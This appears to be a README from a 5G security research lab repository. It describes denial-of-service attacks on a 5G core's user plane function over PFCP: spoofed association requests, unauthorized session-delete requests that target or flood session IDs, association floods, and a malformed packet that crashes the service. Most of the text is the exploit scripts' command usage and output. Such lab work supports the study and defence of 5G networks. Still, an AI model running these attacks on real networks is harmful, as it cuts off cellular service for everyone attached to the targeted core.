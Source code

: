 # PFCP Based DOS Attacks

These attacks are based on but not exactly the same as those of todo (cite pfcp paper) however instead of taking over the SMF we will just spoof an IP address and act as a second UPF that connects and then commits the unauthorized PFCP based attacks.

These attack work from either the UE or CORE vm you just need the UPF ip address. You only need to not use the same IP as the ligitimate SMF if you don't have the ability to stop the real SMF. Also you need to run and have scapy installed with root provalages to use the functionalities needed.

## Unauthorized PFCP Session Delete Request

Here we connect to a or multiple UPFs and send unauothrized PFCP session delete requests. First we send an association request and then either flood SEIDs or target a specific SEID. Below you can see the standard use. 

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -h
sudo python3 delete_pfcp_session.py -s <source_ip> -d <destination_ip> -t <target seid (optional else will flood)> -f <flood range>

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1 -t 3 #targeting the SEID on upf 10.0.17.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  3  To upf:  10.0.17.1

user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 delete_pfcp_session.py -s 10.0.14.10  -d 10.0.17.1,10.0.21.1 -f 0,3 #Flood seid 0-3 to both ips 10.0.17.1 and 10.0.21.1

.
Sent 1 packets.
Sending association request to UPF at:  10.0.17.1
.
Sent 1 packets.
Sending association request to UPF at:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  0  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  1  To upf:  10.0.21.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.17.1
.
Sent 1 packets.
Sending session delete request for SEID:  2  To upf:  10.0.21.1

```
![targeted seid](../../../../Media/targeted_delete_session.gif)
TODO redo above gif, before i fixed the bug where i didnt pass seid and alwasy sent seid =1

![Registerue](/5G/Media/regester_ue_upf_log.gif)

## Flood Associate DOS

Another even simpler attack is to simply flood with association requests from different spoofed ips.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 flood_associate.py -d <target IP>
```

![flood associate](../../../../Media/flood_associate_dos.gif)


## Flood Associate DOS

While investigating the other PFCP Dos attacks we found a malformed packet that leads to the upf service restarting and losing all UE data associated, thusly blocking all UE traffic.

```console
user@UE_VM||CORE_VM:~/5G/UE_VM/Exploit_Scripts/DOS/PFCP$ sudo python3 malformed_modify_pfcp_session.py -d <target IP>
```

![malformed dos](../../../../Media/malformed_upf_dos.gif)

